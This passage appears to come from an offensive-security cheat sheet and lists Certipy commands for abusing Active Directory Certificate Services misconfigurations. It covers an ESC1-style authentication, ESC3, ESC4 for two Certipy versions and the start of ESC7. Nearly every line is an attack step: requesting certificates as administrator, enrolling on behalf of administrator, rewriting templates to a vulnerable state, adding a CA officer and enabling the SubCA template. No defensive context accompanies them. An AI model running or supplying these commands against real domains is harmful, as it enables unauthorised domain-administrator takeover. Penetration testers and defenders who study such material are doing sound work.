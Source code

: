 ```sh
certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip
```

Update (Feb 2025 enforcement):

```sh
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -sid <administrator sid> -dc-ip ip
```

###### ESC3

```sh
certipy req -u username -p password -ca ca -target domain -template template
```

```sh
certipy req -u username -p password -ca ca -target domain -template User -on-behalf-of administrator -pfx pfx_file
```

```sh
certipy auth -pfx administrator.pfx -dc-ip ip
```

###### ESC4 (Certipy 4.8.2)

```sh
certipy template -u username -p password -template template -save-old -dc-ip ip
```

```sh
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator
```

```sh
certipy auth -pfx administrator.pfx -domain domain -u administrator -dc-ip ip
```

###### ESC4 (Certipy 5.0.2):

```sh
certipy template -u username@domain -p password -template template -write-default-configuration -no-save
```

```sh
certipy req -u username@domain -p password -ca ca -template template -upn administrator@domain
```

```sh
certipy auth -pfx administrator.pfx -dc-ip ip
```

##### ESC7

```sh
certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip
```

```sh
certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip
```
